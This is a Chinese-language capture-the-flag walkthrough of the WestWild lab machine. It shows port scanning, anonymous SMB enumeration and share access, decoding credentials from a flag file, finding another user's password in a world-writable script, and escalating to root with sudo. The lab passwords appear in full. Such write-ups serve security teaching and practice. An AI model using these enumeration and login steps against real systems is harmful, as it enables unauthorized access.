

## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 -p- 192.168.99.46       
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:07:8D:37 (VMware)

                                                                                                                                                                          
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -A -p 22,80,139,445 192.168.99.46

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 6f:ee:95:91:9c:62:b2:14:cd:63:0a:3e:f8:10:9e:da (DSA)
|   2048 10:45:94:fe:a7:2f:02:8a:9b:21:1a:31:c5:03:30:48 (RSA)
|   256 97:94:17:86:18:e2:8e:7a:73:8e:41:20:76:ba:51:73 (ECDSA)
|_  256 23:81:c7:76:bb:37:78:ee:3b:73:e2:55:ad:81:32:72 (ED25519)
80/tcp  open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
MAC Address: 00:0C:29:07:8D:37 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: WESTWILD; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: WESTWILD, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2024-02-26T08:43:35
|_  start_date: N/A
|_clock-skew: mean: 7h00m00s, deviation: 1h43m55s, median: 8h00m00s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: westwild
|   NetBIOS computer name: WESTWILD\x00
|   Domain name: \x00
|   FQDN: westwild
|_  System time: 2024-02-26T11:43:35+03:00

TRACEROUTE
HOP RTT     ADDRESS
1   0.59 ms 192.168.99.46

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.55 seconds
```


## enum4linux smb信息收集

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo enum4linux -a 192.168.99.46                                                                         
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Mon Feb 26 09:02:06 2024

 =========================================( Target Information )=========================================

Target ........... 192.168.99.46
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ===========================( Enumerating Workgroup/Domain on 192.168.99.46 )===========================


[+] Got domain/workgroup name: WORKGROUP


 ===============================( Nbtstat Information for 192.168.99.46 )===============================

Looking up status of 192.168.99.46
        WESTWILD        <00> -         B <ACTIVE>  Workstation Service
        WESTWILD        <03> -         B <ACTIVE>  Messenger Service
        WESTWILD        <20> -         B <ACTIVE>  File Server Service
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
        WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
        WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00

 ===================================( Session Check on 192.168.99.46 )===================================


[+] Server 192.168.99.46 allows sessions using username '', password ''


 ================================( Getting domain SID for 192.168.99.46 )================================

Domain Name: WORKGROUP
Domain Sid: (NULL SID)

[+] Can't determine if host is part of domain or part of a workgroup


 ==================================( OS information on 192.168.99.46 )==================================


[E] Can't get OS info with smbclient


[+] Got OS info for 192.168.99.46 from srvinfo: 
        WESTWILD       Wk Sv PrQ Unx NT SNT WestWild server (Samba, Ubuntu)
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03


 =======================================( Users on 192.168.99.46 )=======================================

index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: aveng    Name: aveng     Desc: 
index: 0x2 RID: 0x3ea acb: 0x00000010 Account: wavex    Name: XxWavexX  Desc: 
index: 0x3 RID: 0x3e9 acb: 0x00000010 Account: root     Name: root      Desc: 

user:[aveng] rid:[0x3e8]
user:[wavex] rid:[0x3ea]
user:[root] rid:[0x3e9]

 =================================( Share Enumeration on 192.168.99.46 )=================================


        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        wave            Disk      WaveDoor
        IPC$            IPC       IPC Service (WestWild server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            WESTWILD

[+] Attempting to map shares on 192.168.99.46

//192.168.99.46/print$  Mapping: DENIED Listing: N/A Writing: N/A
//192.168.99.46/wave    Mapping: OK Listing: OK Writing: N/A

[E] Can't understand response:

NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
//192.168.99.46/IPC$    Mapping: N/A Listing: N/A Writing: N/A

 ===========================( Password Policy Information for 192.168.99.46 )===========================


[+] Attaching to 192.168.99.46 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

        [+] WESTWILD
        [+] Builtin

[+] Password Info for Domain: WESTWILD

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: Not Set
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: Not Set


[+] Retieved partial password policy with rpcclient:


Password Complexity: Disabled
Minimum Password Length: 5


 ======================================( Groups on 192.168.99.46 )======================================


[+] Getting builtin groups:


[+]  Getting builtin group memberships:


[+]  Getting local groups:


[+]  Getting local group memberships:


[+]  Getting domain groups:


[+]  Getting domain group memberships:


 ==================( Users on 192.168.99.46 via RID cycling (RIDS: 500-550,1000-1050) )==================


[I] Found new SID: 
S-1-5-21-2348391294-8489912-3943912366

[I] Found new SID: 
S-1-5-32

[I] Found new SID: 
S-1-5-32

[I] Found new SID: 
S-1-5-32

[I] Found new SID: 
S-1-5-32

[+] Enumerating users using SID S-1-5-21-2348391294-8489912-3943912366 and logon username '', password ''

S-1-5-21-2348391294-8489912-3943912366-501 WESTWILD\nobody (Local User)
S-1-5-21-2348391294-8489912-3943912366-513 WESTWILD\None (Domain Group)
S-1-5-21-2348391294-8489912-3943912366-1000 WESTWILD\aveng (Local User)
S-1-5-21-2348391294-8489912-3943912366-1001 WESTWILD\root (Local User)
S-1-5-21-2348391294-8489912-3943912366-1002 WESTWILD\wavex (Local User)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\aveng (Local User)
S-1-22-1-1001 Unix User\wavex (Local User)

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''

S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

 ===============================( Getting printer info for 192.168.99.46 )===============================

No printers returned.


enum4linux complete on Mon Feb 26 09:02:31 2024
```
发现可以空密码登录


```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo smbclient -L \\192.168.99.46    
Password for [WORKGROUP\root]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        wave            Disk      WaveDoor
        IPC$            IPC       IPC Service (WestWild server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            WESTWILD

┌──(kali㉿kali)-[~/workspace]
└─$ sudo smbclient //192.168.99.46/wave 
Password for [WORKGROUP\root]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 30 13:18:56 2019
  ..                                  D        0  Fri Aug  2 07:02:20 2019
  FLAG1.txt                           N       93  Tue Jul 30 10:31:05 2019
  message_from_aveng.txt              N      115  Tue Jul 30 13:21:48 2019

                1781464 blocks of size 1024. 244308 blocks available
smb: \> ?
?              allinfo        altname        archive        backup         
blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             
l              mask           md             mget           mkdir          
more           mput           newer          notify         open           
posix          posix_encrypt  posix_open     posix_mkdir    posix_rmdir    
posix_unlink   posix_whoami   print          prompt         put            
pwd            q              queue          quit           readlink       
rd             recurse        reget          rename         reput          
rm             rmdir          showacls       setea          setmode        
scopy          stat           symlink        tar            tarmode        
timeout        translate      unlock         volume         vuid           
wdel           logon          listconnect    showconnect    tcon           
tdis           tid            utimes         logoff         ..             
!              
smb: \> get *
NT_STATUS_OBJECT_NAME_INVALID opening remote file \*
smb: \> get FLAG1.txt
getting file \FLAG1.txt of size 93 as FLAG1.txt (15.1 KiloBytes/sec) (average 15.1 KiloBytes/sec)
smb: \> get message_from_aveng.txt
getting file \message_from_aveng.txt of size 115 as message_from_aveng.txt (28.1 KiloBytes/sec) (average 20.3 KiloBytes/sec)
smb: \> 

┌──(kali㉿kali)-[~/workspace]
└─$ cat *.txt 
RmxhZzF7V2VsY29tZV9UMF9USEUtVzNTVC1XMUxELUIwcmRlcn0KdXNlcjp3YXZleApwYXNzd29yZDpkb29yK29wZW4K
Dear Wave ,
Am Sorry but i was lost my password ,
and i believe that you can reset  it for me . 
Thank You 
Aveng 
                                                                                                                                                                          
┌──(kali㉿kali)-[~/workspace]
└─$ echo -n 'RmxhZzF7V2VsY29tZV9UMF9USEUtVzNTVC1XMUxELUIwcmRlcn0KdXNlcjp3YXZleApwYXNzd29yZDpkb29yK29wZW4K'|base64 -d
Flag1{Welcome_T0_THE-W3ST-W1LD-B0rder}
user:wavex
password:door+open

```

## 提权

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo ssh wavex@192.168.99.46                              
[sudo] kali 的密码：
The authenticity of host '192.168.99.46 (192.168.99.46)' can't be established.
ED25519 key fingerprint is SHA256:oeuytnbnPest0/m/OtTQyjaFSRv03+EMhBmAX886bsk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.99.46' (ED25519) to the list of known hosts.
wavex@192.168.99.46's password: 
Welcome to Ubuntu 14.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Mon Feb 26 11:40:29 +03 2024

  System load: 0.0               Memory usage: 4%   Processes:       172
  Usage of /:  77.9% of 1.70GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Your Hardware Enablement Stack (HWE) is supported until April 2019.
Last login: Fri Aug  2 02:00:40 2019
wavex@WestWild:~$ ls
wave
wavex@WestWild:~$ sudo -l
[sudo] password for wavex: 
Sorry, user wavex may not run sudo on WestWild.
```

尝试了查找pass和backup的备份，suid，计划任务等都无果
最后通过查找可写文件找到了应该脚本
```bash
wavex@WestWild:/var/backups$ find / -perm -0777 -type f 2>/dev/null
/usr/share/av/westsidesecret/ififoregt.sh
wavex@WestWild:/var/backups$ cat /usr/share/av/westsidesecret/ififoregt.sh
 #!/bin/bash 
 figlet "if i foregt so this my way"
 echo "user:aveng"
 echo "password:kaizen+80"
```
此时就找到了aveng的密码
ssh连接

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo ssh aveng@192.168.99.46         
[sudo] kali 的密码：
aveng@192.168.99.46's password: 
Welcome to Ubuntu 14.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Mon Feb 26 12:18:58 +03 2024

  System load:  0.0               Processes:           164
  Usage of /:   80.2% of 1.70GB   Users logged in:     0
  Memory usage: 15%               IP address for eth0: 192.168.99.46
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Your Hardware Enablement Stack (HWE) is supported until April 2019.
Last login: Wed Jul 31 19:26:18 2019 from 192.168.59.1
aveng@WestWild:~$ sudo -l
[sudo] password for aveng: 
Matching Defaults entries for aveng on WestWild:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aveng may run the following commands on WestWild:
    (ALL : ALL) ALL
aveng@WestWild:~$ sudo /bin/bash
root@WestWild:~# whoami
root
root@WestWild:~# ls /root
FLAG2.txt
root@WestWild:~# cat /root/FLAG2.txt 
Flag2{Weeeeeeeeeeeellco0o0om_T0_WestWild}

Great! take a screenshot and Share it with me in twitter @HashimAlshareff 
```
拥有所有权限，那么直接sudo su就可以了
